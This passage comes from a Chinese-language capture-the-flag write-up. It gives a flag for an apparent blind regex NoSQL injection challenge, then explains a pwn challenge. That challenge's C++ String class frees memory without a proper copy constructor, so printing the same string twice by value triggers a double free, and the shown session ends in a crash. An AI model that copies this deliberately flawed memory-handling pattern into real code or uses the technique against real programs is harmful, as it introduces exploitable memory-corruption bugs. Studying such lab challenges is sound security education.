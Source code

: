 **Flag:** `AIS3{Bl1nd-b4s3d r3gex n0sq1i?! (:3[___]}`

## Pwn

### SAAS — Crash

1. `String` 的 [destructor](https://en.cppreference.com/w/cpp/language/destructor) 會把 `str` delete 掉，但沒有把 `str` 設回 `nullptr`，留下 dangling pointer。而 `print` 會呼叫 [copy constructor](https://en.cppreference.com/w/cpp/language/copy_constructor) 把 `s` 的 member 都 copy 過來，然後在 `print` 結束時呼叫 `String` 的 destructor 把 `s` 清掉，因此只要連續 `print` 兩次，就可以 double free `s.str`。

   ```cpp
   class String {
      public:
       char *str;
       size_t len;

       String(const char *s) {
           len = strlen(s);
           str = new char[len + 1];
           strcpy(str, s);
       }
       ~String() { delete[] str; }
   };

   void print(String s) {
       printf("Length: %zu\n", s.len);
       printf("Content: ");
       write(1, s.str, s.len);
       printf("\n");
   }
   ```

2. 建立 string 之後 print 兩次得到 flag。

   ```bash
   ===== S(tring)AAS =====
   1. Create string
   2. Edit string
   3. Print string
   4. Delete string
   > 1
   Index: 0
   Content: aaaa
   ===== S(tring)AAS =====
   1. Create string
   2. Edit string
   3. Print string
   4. Delete string
   > 3
   Index: 0
   Length: 4
   Content: aaaa
   ===== S(tring)AAS =====
   1. Create string
   2. Edit string
   3. Print string
   4. Delete string
   > 3
   Index: 0
   Length: 4
   Content:
   free(): double free detected in tcache 2
   Aborted (core dumped)
   ```
